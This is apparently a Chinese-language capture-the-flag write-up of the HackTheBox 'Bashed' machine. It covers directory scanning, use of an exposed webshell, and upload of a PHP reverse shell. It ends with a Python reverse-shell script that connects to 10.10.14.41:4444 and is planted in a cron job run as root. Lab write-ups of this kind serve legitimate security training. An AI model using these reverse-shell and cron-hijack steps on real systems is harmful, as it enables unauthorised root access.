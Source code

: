 ```yaml
---
layout: post
title:  "HackTheBox >_ Bashed_68"
description: walkthrough
category: HackTheBox
---
```

# Bashed_68

![image-20200928095005762]({{ site.url }}/assets/Bashed_68.assets/image-20200928095005762.png)

首先，这个也是极度简单的几个机器之一

端口80

扫目录

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt
```

得到/dev

![image-20200928095311273]({{ site.url }}/assets/Bashed_68.assets/image-20200928095311273.png)

其中phpbash.php指向一个webshell，嗯，就是这么简单

![image-20200928095647665]({{ site.url }}/assets/Bashed_68.assets/image-20200928095647665.png)

本地准备一个 php 的 reverse shell，并在webshell页面通过wget将文件传输到靶机上。

 http://pentestmonkey.net/tools/web-shells/php-reverse-shell

![image-20200928095519686]({{ site.url }}/assets/Bashed_68.assets/image-20200928095519686.png)

但是dev目录是没有权限写入的

![image-20200928095731764]({{ site.url }}/assets/Bashed_68.assets/image-20200928095731764.png)

在上级目录中找到可写的uploads文件夹

![image-20200928095854547]({{ site.url }}/assets/Bashed_68.assets/image-20200928095854547.png)

上传到这里

![image-20200928095922489]({{ site.url }}/assets/Bashed_68.assets/image-20200928095922489.png)

在监听端口建立监听，网页浏览以激活

![image-20200928100004754]({{ site.url }}/assets/Bashed_68.assets/image-20200928100004754.png)

在监听端口得到shell

![image-20200928100034052]({{ site.url }}/assets/Bashed_68.assets/image-20200928100034052.png)

用户目录下得到user

![image-20200928100138159]({{ site.url }}/assets/Bashed_68.assets/image-20200928100138159.png)

Sudo -l 发现线索

![image-20200928100353241]({{ site.url }}/assets/Bashed_68.assets/image-20200928100353241.png)

这指可以不需要密码切换到scriptmanager

```bash
$ sudo -i -u scriptmanager
```

![image-20200928100530743]({{ site.url }}/assets/Bashed_68.assets/image-20200928100530743.png)

简单枚举后发现/scripts目录

![image-20200928100617636]({{ site.url }}/assets/Bashed_68.assets/image-20200928100617636.png)

在其中

![image-20200928100705997]({{ site.url }}/assets/Bashed_68.assets/image-20200928100705997.png)

Test.py:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

test.txt

```html
testing 123!
```

python脚本是在当前目录中打开文件test.txt，写入`testing123!`然后关闭文件。我们知道文件test.txt是root拥有的，也就是说可能是root

用户通过python脚本执行，所以才会生成由root拥有的txt，因此我们可以猜测root用户正在按计划执行此python脚本。那么我们需要做的

就是将一个反向shell插入此脚本中，然后等待它作为root用户执行。

在kali本地建立如下脚本

```python
import socket,subprocess,os
f = open("test.txt","w")
f.write("privesc")
f.close
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.41",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![image-20200928101418355]({{ site.url }}/assets/Bashed_68.assets/image-20200928101418355.png)

删除或备份服务器上的python脚本（正常要备份，不要删除，就是太简单了，没意思，心态崩了，瞎做，想快点跳过）

![image-20200928101402458]({{ site.url }}/assets/Bashed_68.assets/image-20200928101402458.png)

传输到靶机上

![image-20200928101449521]({{ site.url }}/assets/Bashed_68.assets/image-20200928101449521.png)

等待计划任务执行

在监听端口得到root shell

![image-20200928101523412]({{ site.url }}/assets/Bashed_68.assets/image-20200928101523412.png)

flag

![image-20200928101607047]({{ site.url }}/assets/Bashed_68.assets/image-20200928101607047.png)